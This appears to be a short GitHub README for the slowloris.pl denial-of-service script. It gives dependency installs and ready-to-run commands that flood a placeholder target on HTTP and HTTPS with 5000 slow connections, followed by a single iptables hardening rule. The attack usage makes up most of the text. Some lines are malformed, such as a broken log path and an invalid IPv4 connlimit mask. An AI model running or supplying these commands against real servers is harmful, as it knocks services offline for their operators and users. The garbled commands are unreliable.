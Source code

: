 # Disclaimer

Log Web Server Apache :
------
```
/var/log/apache2/tail -f ./access.log
/var/log/apache2/access.log
```

Requirements:
------
```
sudo apt-get update  
sudo apt-get install perl
sudo apt-get install libwww-mechanize-shell-perl
sudo apt-get install perl-mechanize
```

Example Configuration :
-----
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache <- HTTP
perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache <- HTTPS
```

Harderning DOS :
-------
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```
